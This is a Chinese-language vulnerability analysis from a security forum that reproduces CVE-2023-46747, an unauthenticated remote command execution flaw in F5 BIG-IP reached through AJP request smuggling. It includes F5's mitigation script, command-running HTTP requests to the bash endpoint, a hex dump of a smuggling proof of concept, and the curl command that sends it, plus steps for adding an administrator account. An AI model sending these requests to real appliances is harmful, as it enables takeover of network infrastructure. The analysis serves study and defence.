







# F5 BIG-IP RCE（CVE-2023-46747）漏洞分析复现 - 先知社区

F5 BIG-IP RCE（CVE-2023-46747）漏洞分析复现

- - -

F5 BIG-IP 是美国 F5 公司一款集成流量管理、DNS、出入站规则、web应用防火墙、web网关、负载均衡等功能的应用交付平台。

## 漏洞描述

此漏洞可能允许未经验证的攻击者通过管理端口或自身 IP 地址访问 BIG-IP 系统，从而执行任意系统命令。

## 影响版本

| 分支  | 影响版本 | 修复版本 |
| --- | --- | --- |
| 13.x | 13.1.0 - 13.1.5 | 13.1.5.1 |
| 14.x | 14.1.0 - 14.1.5 | 14.1.5.6 |
| 15.x | 15.1.0 - 15.1.10 | 15.1.10.2 |
| 16.x | 16.1.0 - 16.1.4 | 16.1.4.1 |
| 17  | 17.1.0 | 17.1.0.3 |

注：BIG-IQ集中管理不受此漏洞影响。

## 漏洞复现

F5 BIG-IP属于商业产品，但好在F5的官网提供新用户30天的免费试用，所以我们可以搭建试用版本用于漏洞复现，具体的搭建流程就不赘述了，网上有很多教程。

### 历史漏洞回顾

根据公开消息已知这是一个权限绕过导致的漏洞，那这时候就不得不提到BIG-IP的另一个漏洞——CVE-2020-5902，这个漏洞正是利用了Tomcat的解析特性导致的鉴权绕过，此方法最早在BlackHat-USA-2018 [1](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf "Breaking Parser Logic - Take Your Path Normalization Off and Pop 0days Out") 的演讲上披露，如下图所示。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101141920-97de30ae-787e-1.png)  
BIG-IP还有一个比较出名漏洞CVE-2022-1388，这个漏洞也是权限绕过类，通过加入特定的请求头导致鉴权绕过，最终导致远程命令执行。

### 从鉴权绕过到RCE

看到这里，有不懂的小伙伴可能就要问了，鉴权绕过怎么就会导致RCE（远程命令执行）呢？TMUI是F5 BIG-IP的流量管理用户界面。

如果有管理账号密码，登陆就能获取X-F5-Auth-Token头，从而执行命令（流程参考CVE-2022-1388）。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101143144-532dbcac-7880-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101143213-6471e272-7880-1.png)

```plain
POST /mgmt/shared/authn/login HTTP/1.1
Host: 100.100.100.100
X-F5-Auth-Token:
Connection: close
Content-type: application/json
Content-Length: 41

{"command":"run", "utilCmdArgs": "-c id"}
```

```plain
POST /mgmt/tm/util/bash HTTP/1.1
Host: 100.100.100.100
X-F5-Auth-Token: LIKUTWQGCHMYXG2X3LGCUKHUU2
Connection: close
Content-type: application/json
Content-Length: 41

{"command":"run", "utilCmdArgs": "-c id"}
```

换句话说，只要能绕过登陆的鉴权或者拿到管理员账号，就能RCE（远程命令执行）。

所以你就会发现，BIG-IP的RCE（远程命令执行）漏洞几乎都是围绕鉴权绕过产生的，无非是绕过的方法不同。

### Apache Httpd AJP请求走私

我们总结后发现，CVE-2020-5902是利用了Tomcat的特性进行绕过，CVE-2022-1388是利用了请求头的逻辑进行绕过，经过网上披露的细节我们发现这次CVE-2023-46747的问题出现在了Apache。

> AJP 服务全称 Apache JServ Protocol，是一个类似 HTTP 的二进制协议，数据包格式较为简单。AJP 协议的 请求数据包Magic 为 `0x1234`，后面紧跟着 2 个字节的数据长度字段，再往后就是数据包的具体内容。[2](https://ricterz.me/posts/2022-03-03-a-new-attack-method-ajp-request-smuggling.txt "A New Attack Method: AJP Request Smuggling")

对于 AJP 协议的其他细节就不再进行赘述，可以参考 Apache Tomcat 的官方文档。[3](https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html "AJP Protocol Reference")

官方第一时间就给出了缓解脚本[4](https://my.f5.com/manage/s/article/K000137353 "K000137353: BIG-IP Configuration utility unauthenticated RCE CVE-2023-46747")，从缓解脚本发现很明显问题就出在了AJP，联想到AJP请求走私的缓解措施就是设置 Apache Tomcat 的 AJP secret，那么很有可能这个漏洞就是通过AJP请求走私导致的权限绕过，从而导致RCE。

```plain
#!/bin/sh
#
# Copyright © 2023, F5 Networks, Inc. All rights reserved.
#
# No part of this software may be reproduced or transmitted in any
# form or by any means, electronic or mechanical, for any purpose,
# without express written permission of F5 Networks, Inc.
#

proxy_ajp_conf="/config/httpd/conf.d/proxy_ajp.conf"
tomcat_conf="/etc/tomcat/server.xml"


# Backup original configuration files
if [ ! -f "${proxy_ajp_conf}.f5orig" ]; then
    cp "${proxy_ajp_conf}" "${proxy_ajp_conf}.f5orig"
fi
if [ ! -f "${tomcat_conf}.f5orig" ]; then
    cp "${tomcat_conf}" "${tomcat_conf}.f5orig"
fi

usage()
{
    echo "Usage: $0 [-h]|[-u][-r]"
    echo "This utility mitigates ID1378329 and restarts the apache and tomcat daemons."
    echo "     : -h    Display this help message"
    echo "     : -u    Undo the ID1378329 mitigation"
    exit 255
}


PARSED_ARGS=$(getopt -a -n "$0" -o hru --long help,restart,undo -- "$@")
VALID_ARGS=$?
if [ "$VALID_ARGS" != "0" ]; then
  usage
fi

UNDO="false"

eval set -- "$PARSED_ARGS"
while :
do
  case "$1" in
    -h | --help)                   usage           ; shift   ;;
    -u | --undo)                   UNDO="true"     ; shift   ;;
    --)                            shift; break ;;
    *)                             echo "Unexpected option: $1 - this should not happen."; usage ;;
  esac
done

if $UNDO; then
    echo "Undoing ID1378329 mitigation..."

    # Be very careful when editing this section.
    #
    # We use double quotes here to allow variable substitution to add the random
    # secret, which means we have to quote shell metacharacters that we don't want
    # changed.
    #
    # We remove any existing secret directive, then add the new one.  This
    # version of sed doesn't support the '+' regex match modifier, thus the
    # repeated match strings and use of '*'.
    #
    PAJPSED="
    /proxypassmatch/I {
    s/\\s\\s*secret=[0-9a-f]*\\s\\s*/ /I;
    s/\\s\\s*secret=[0-9a-f]*\$//I;
    }
    "

    sed -ci.bak "${PAJPSED}" "${proxy_ajp_conf}"


    # Be very careful when editing this section.
    #
    #
    # Here we either replace or add the requiredSecret option, we also use pipe
    # symbols instead of forward slashes to delimit the regular expressions, since
    # it includes forward slashes.  This version of sed doesn't support the '+'
    # regex match modifier, thus the repeated match strings and use of '*'.
    #
    TOMCATSED="
    /tomcatauthentication=/I {
    s|\\s\\s*requiredSecret=\"[0-9a-f]*\"||;
    }
    "

    sed -ci.bak "${TOMCATSED}" "${tomcat_conf}"

else
    echo "Applying ID1378329 mitigation..."

    random_secret=$(head -c 20 /dev/random | xxd -p -c 20)


    # Creating random nonce
    # Be very careful when editing this section.
    #
    # We use double quotes here to allow variable substitution to add the random
    # secret, which means we have to quote shell metacharacters that we don't want
    # changed.
    #
    # First we remove any existing secret directive, then add the new one.  This
    # version of sed doesn't support the '+' regex match modifier, thus the
    # repeated match strings and use of '*'.
    #
    PAJPSED="
    /proxypassmatch/I {
    s/\\s\\s*secret=[0-9a-f][0-9a-f]*\\s\\s*/ /I;
    s/\\s\\s*secret=[0-9a-f][0-9a-f]*\$//I;
    s/\$/ secret=${random_secret}/;
    }
    "

    sed -ci.bak "${PAJPSED}" "${proxy_ajp_conf}"


    # Be very careful when editing this section.
    #
    #
    # Here we either replace or add the requiredSecret option, we also use pipe
    # symbols instead of forward slashes to delimit the regular expressions, since
    # it includes forward slashes.  This version of sed doesn't support the '+'
    # regex match modifier, thus the repeated match strings and use of '*'.
    #
    TOMCATSED="
    /tomcatauthentication=/I {
    s|\\s\\s*requiredSecret=\"[0-9a-f][0-9a-f]*\"| requiredSecret=\"${random_secret}\"|;
    s|\"false\"\\s\\s*/>|\"false\" requiredSecret=\"${random_secret}\" />|;
    }
    "

    sed -ci.bak "${TOMCATSED}" "${tomcat_conf}"
fi

echo "Restarting httpd..."
bigstart restart httpd
echo "Restarting tomcat..."
bigstart restart tomcat

echo "Done!"
```

我们首先验证一下F5 BIG-IP是否使用了AJP协议，根据官方给出的缓解脚本中轻松找到了tomcat的配置文件`/etc/tomcat/server.xml`，从配置文件中可以看到开启了AJP协议。

```plain
<!--省略无关代码-->

  <Service name="Catalina">
    <!-- Define an AJP 1.3 Connector on port 8009 -->
    <Connector port="8009" protocol="AJP/1.3" 
               redirectPort="8443" 
               enableLookups="true" 
               address="127.0.0.1"
               maxParameterCount="32500"
               tomcatAuthentication="false" />

    <Connector address="127.0.0.1" port="9832" protocol="HTTP/1.1" connectionTimeout="20000" redirectPort="8443"/>

<!--省略无关代码-->
```

我们再看看Apache的配置文件`/config/httpd/conf.d/proxy_ajp.conf`中怎么写的。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101143329-91e8408e-7880-1.png)  
从配置文件中可以看出，Apache的配置文件中将`/tmui/`下的请求都通过AJP协议转发到后端Tomcat进行处理。

/tmui/这个目录是不是看起来很熟悉，这就是BIG-IP的流量管理用户页面，感觉离漏洞又近了一步。

### AJP POC测试

现在的问题就变成了如何利用AJP请求走私，我们直接复用网上的AJP走私POC进行测试。

```plain
ubuntu@ubuntu:~$ file poc
poc: data
ubuntu@ubuntu:~$ xxd poc
00000000: 0008 4854 5450 2f31 2e31 0000 012f 0000  ..HTTP/1.1.../..
00000010: 0931 3237 2e30 2e30 2e31 00ff ff00 0161  .127.0.0.1.....a
00000020: 0000 5000 0000 0a00 216a 6176 6178 2e73  ..P.....!javax.s
00000030: 6572 766c 6574 2e69 6e63 6c75 6465 2e72  ervlet.include.r
00000040: 6571 7565 7374 5f75 7269 0000 012f 000a  equest_uri.../..
00000050: 0022 6a61 7661 782e 7365 7276 6c65 742e  ."javax.servlet.
00000060: 696e 636c 7564 652e 7365 7276 6c65 745f  include.servlet_
00000070: 7061 7468 0001 532f 2f2f 2f2f 2f2f 2f2f  path..S/////////
00000080: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000090: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000a0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000b0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000c0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000d0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000e0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000f0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000100: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000110: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000120: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000130: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000140: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000150: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000160: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000170: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000180: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000190: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001a0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001b0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001c0: 2f2f 2f2f 2f2f 2f2f 2f2f 000a 001f 6a61  //////////....ja
000001d0: 7661 782e 7365 7276 6c65 742e 696e 636c  vax.servlet.incl
000001e0: 7564 652e 7061 7468 5f69 6e66 6f00 0010  ude.path_info...
000001f0: 2f57 4542 2d49 4e46 2f77 6562 2e78 6d6c  /WEB-INF/web.xml
00000200: 00ff
```

直接使用AJP请求走私的方式进行请求，这里要注意，所有走私请求类的漏洞利用都无法稳定利用，所以没利用成功可以多试几次。

这里我们请求`/tmui/login.jsp`这个路由，正常请求会返回200，如果请求走私成功，则会返回404，这里我们可以看到，试过几次后成功让服务器返回404，说明AJP请求走私问题是存在的。

```plain
curl -k -i https://192.168.1.1:8443/tmui/login.jsp -H 'Transfer-Encoding: chunked' --data-binary @poc
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101143417-ae96708e-7880-1.png)

### AJP请求走私流程

接下来就到了如何利用AJP请求走私漏洞了，首先要了解AJP走私的发生过程，网上的资料非常少，甚至有些地方是矛盾的，所以本节内容为官方文档[3](https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html "AJP Protocol Reference")、互联网公开资料[2](https://www.praetorian.com/blog/refresh-compromising-f5-big-ip-with-request-smuggling-cve-2023-46747/ "Praetorian - Compromising F5 BIG-IP With Request Smuggling")以及结合个人理解得出，可能有不对的地方，还请指正。

> 关于 CVE-2022-26377 的 Apache httpd描述指出："Apache HTTP 服务器 mod\_proxy\_ajp 中的 HTTP 请求解释不一致（'HTTP 请求走私'）漏洞允许攻击者向其转发请求的 AJP 服务器走私请求。此问题影响 Apache HTTP 服务器 2.4 版本 2.4.53 和以前的版本"。

按照AJP请求走私漏洞的描述，在Apache HTTP服务器2.4.53版本之前才有问题，那恰好F5 BIG-IP中的Apache HTTP就在受影响的版本内。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101143440-bc31ba3c-7880-1.png)  
《A New Attack Method: AJP Request Smuggling》[2](https://ricterz.me/posts/2022-03-03-a-new-attack-method-ajp-request-smuggling.txt "A New Attack Method: AJP Request Smuggling") 中指出了请求的过程，但没有细节，《Praetorian - Compromising F5 BIG-IP With Request Smuggling》[5](https://www.praetorian.com/blog/refresh-compromising-f5-big-ip-with-request-smuggling-cve-2023-46747/ "Praetorian - Compromising F5 BIG-IP With Request Smuggling") 中提到了关键的细节：

> A binary AJP message sent from the httpd service to the backend AJP listener starts with the magic bytes “0x12” “0x34”, followed by a two byte message length, followed by the “data.” The 5th byte of the message contains the “Code,” a value that determines the type of AJP request. The Code for HTTP forward requests is the value “0x2”. The 6th byte of the HTTP forward request encodes the request’s HTTP verb. A GET request is 0x2, a POST request is 0x4, and so on. The rest of the message data encodes AJP attributes and HTTP request information.
> 
> A POST request might also contain body content. The AJP protocol encodes POST body content as its own special data message. The first bytes are the same magic bytes “0x1234,” and these are similarly followed by a two byte message length. The 5th and 6th bytes differ, these two bytes contain the data length. The rest of the message is the POST body data. A typical AJP POST message from the httpd service to the AJP listener will look like the following two packets sent back to back (see figures 7, 8 and 9).

由于可能翻译上的误差会导致理解错误，所以我这里贴上原文，欢迎去原文地址阅读[5](https://www.praetorian.com/blog/refresh-compromising-f5-big-ip-with-request-smuggling-cve-2023-46747/ "Praetorian - Compromising F5 BIG-IP With Request Smuggling")。

请求走私的原因就是AJP消息不包含Content-Length头，所以Tomcat 服务器不会读取body的数据，但是httpd发送的第二条消息仍然位于套接字上，处理完第一条消息后，整个循环继续，并从套接字读取另一条消息。

如果我们提交的消息的 POST 主体长度为 204（0x2 是 FORWARD\_REQUEST 代码，0x4是 HTTP POST 方法），那么 Tomcat AJP 监听器就会将相应的数据解析为 AJP POST 请求，并将其发送到指定路由。所以这就解释了为什么信息长度必须正好是 204，才能被解析为POST 请求。整个请求流程如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101143459-c74e7ac2-7880-1.png)

### 构造请求

根据官方文档可得知，AJP协议是面向数据包的，出于性能原因选择了二进制格式。Web 服务器通过 TCP 连接与Servlet进行通信。为了减少套接字创建过程，Web 服务器将与Servlet建立TCP长连接，并在多个请求/响应周期中重复使用。

那么我们就可以将路由走私到上文提到的`ajp: //localhost:8009/tmui/Control/$1`，我们可以注意到在Control路由下有一个创建用户的地方，那么我们就可以通过请求走私到/tmui/Control/form从而添加用户。

根据nuclei-templates提供的POC[6](https://github.com/projectdiscovery/nuclei-templates/blob/e41934f4bfe7d9cb4a622a966e6c786af10ef480/http/cves/2023/CVE-2023-46747.yaml "nuclei-templates - CVE-2023-46747.yaml")可以看到，走私的内容为通过AJP协议添加用户。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101143524-d64c2f10-7880-1.png)

我们在添加用户时，在F5 BIG-IP服务器内部进行抓包，发现其增加用户的操作其实就是通过AJP协议去执行的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101143541-e0e00e60-7880-1.png)

接下来要做的就是将包长度缩减到204个字节以内，经过测试发现可以删除绝大多数内容，但是注意`_bufvalue`、`_timenow`、`Tmui-Dubbuf`这几个参数的校验，经过反编译相关代码发现是csrf相关校验，nuclei中提供的poc就是`eIL4RUnSwXYoPUIOGcOFx2o00Xc=`、`a`、`BBBBBBBBBBB`，这里直接复用就行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101143600-ec332950-7880-1.png)

### 成功复现

我们直接根据poc构造，发现已经成功通过AJP协议走私添加了管理员账号，既然有后台管理员权限了，那么RCE也是轻而易举的事情了（参考3.2的内容——从鉴权绕过到RCE）。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101143642-05452c86-7881-1.png)

## 后记

到这里，相信各位对F5 BIG-IP的漏洞有所了解了，知道了漏洞的形成的原因，但是在复现过程中我还是会遇到一些坑，在这里记录下来供大家参考。

1、《Praetorian - Compromising F5 BIG-IP With Request Smuggling》[5](https://www.praetorian.com/blog/refresh-compromising-f5-big-ip-with-request-smuggling-cve-2023-46747/ "Praetorian - Compromising F5 BIG-IP With Request Smuggling") 中描述的通过POST带参数的方式发送请求，其实无意义，虽然可行，但是后端依然是以AJP的协议去发包，无论何种方式请求，实际上后端的AJP包内容都是一样，因为走私是直接走私到AJP协议。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101143713-17afe596-7881-1.png)

2、《nuclei-templates - CVE-2023-46747.yaml》[6](https://github.com/projectdiscovery/nuclei-templates/blob/e41934f4bfe7d9cb4a622a966e6c786af10ef480/http/cves/2023/CVE-2023-46747.yaml "nuclei-templates - CVE-2023-46747.yaml") 中给出的POC只对特定版本生效，笔者在15.x、16.x的环境中复现成功，但是在14.x版本失败，虽然AJP走私问题是存在的，但是最终的exp需要对不同版本进行适配，猜测是14.x版本及以下添加用户的接口不同，需要另行适配。

知识水平有限，内容浅显，如果有明显错误或不足之处欢迎各位师傅指出。

## 参考链接 && 致谢

所有引用跟参考在文中均有标注，在这里表示感谢。

\[1\] [https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)

\[2\] [https://ricterz.me/posts/2022-03-03-a-new-attack-method-ajp-request-smuggling.txt](https://ricterz.me/posts/2022-03-03-a-new-attack-method-ajp-request-smuggling.txt)

\[3\] [https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html](https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html)

\[4\] [https://my.f5.com/manage/s/article/K000137353](https://my.f5.com/manage/s/article/K000137353)

\[5\] [https://www.praetorian.com/blog/refresh-compromising-f5-big-ip-with-request-smuggling-cve-2023-46747/](https://www.praetorian.com/blog/refresh-compromising-f5-big-ip-with-request-smuggling-cve-2023-46747/)

